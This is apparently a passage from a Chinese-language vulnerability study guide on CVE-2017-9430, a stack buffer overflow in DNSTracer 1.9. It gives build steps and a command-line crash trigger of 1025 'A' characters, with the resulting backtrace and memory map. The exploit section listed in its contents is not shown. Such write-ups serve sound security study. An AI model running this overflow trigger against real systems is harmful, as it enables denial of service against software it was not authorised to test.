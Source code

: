 # 7.1.6 [CVE-2017-9430] DNSTracer 1.9 Buffer Overflow

- [漏洞描述](#漏洞描述)
- [漏洞复现](#漏洞复现)
- [漏洞分析](#漏洞分析)
- [Exploit](#exploit)
- [参考资料](#参考资料)


[下载文件](../src/exploit/7.1.6_dnstracer_2017-9430)

## 漏洞描述
DNSTracer 是一个用来跟踪 DNS 解析过程的应用程序。DNSTracer 1.9 及之前的版本中存在栈缓冲区溢出漏洞。攻击者可借助带有较长参数的命令行利用该漏洞造成拒绝服务攻击。


## 漏洞复现
| |推荐使用的环境 | 备注 |
| --- | --- | --- |
| 操作系统 | Ubuntu 16.04 | 体系结构：32 位 |
| 调试器 | gdb-peda| 版本号：7.11.1 |
| 漏洞软件 | DNSTracer | 版本号：1.9 |

首先编译安装 DNSTracer：
```
$ wget http://www.mavetju.org/download/dnstracer-1.9.tar.gz
$ tar zxvf dnstracer-1.9.tar.gz
$ cd dnstracer-1.9
$ ./confugure
$ make && sudo make install
```
传入一段超长的字符串作为参数即可触发栈溢出：
```
$ dnstracer -v $(python -c 'print "A"*1025')
*** buffer overflow detected ***: dnstracer terminated
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(+0x67377)[0xb757f377]
/lib/i386-linux-gnu/libc.so.6(__fortify_fail+0x68)[0xb760f6b8]
/lib/i386-linux-gnu/libc.so.6(+0xf58a8)[0xb760d8a8]
/lib/i386-linux-gnu/libc.so.6(+0xf4e9f)[0xb760ce9f]
dnstracer[0x8048f26]
/lib/i386-linux-gnu/libc.so.6(__libc_start_main+0xf7)[0xb7530637]
dnstracer[0x804920a]
======= Memory map: ========
08048000-0804e000 r-xp 00000000 08:01 270483     /usr/local/bin/dnstracer
0804f000-08050000 r--p 00006000 08:01 270483     /usr/local/bin/dnstracer
08050000-08051000 rw-p 00007000 08:01 270483     /usr/local/bin/dnstracer
08051000-08053000 rw-p 00000000 00:00 0 
084b6000-084d7000 rw-p 00000000 00:00 0          [heap]
b74e4000-b7500000 r-xp 00000000 08:01 394789     /lib/i386-linux-gnu/libgcc_s.so.1
b7500000-b7501000 rw-p 0001b000 08:01 394789     /lib/i386-linux-gnu/libgcc_s.so.1
b7518000-b76c8000 r-xp 00000000 08:01 394751     /lib/i386-linux-gnu/libc-2.23.so
b76c8000-b76ca000 r--p 001af000 08:01 394751     /lib/i386-linux-gnu/libc-2.23.so
b76ca000-b76cb000 rw-p 001b1000 08:01 394751     /lib/i386-linux-gnu/libc-2.23.so
b76cb000-b76ce000 rw-p 00000000 00:00 0 
b76e4000-b76e7000 rw-p 00000000 00:00 0 
b76e7000-b76e9000 r--p 00000000 00:00 0          [vvar]
b76e9000-b76eb000 r-xp 00000000 00:00 0          [vdso]
b76eb000-b770d000 r-xp 00000000 08:01 394723     /lib/i386-linux-gnu/ld-2.23.so
b770d000-b770e000 rw-p 00000000 00:00 0 
b770e000-b770f000 r--p 00022000 08:01 394723     /lib/i386-linux-gnu/ld-2.23.so
b770f000-b7710000 rw-p 00023000 08:01 394723     /lib/i386-linux-gnu/ld-2.23.so
```
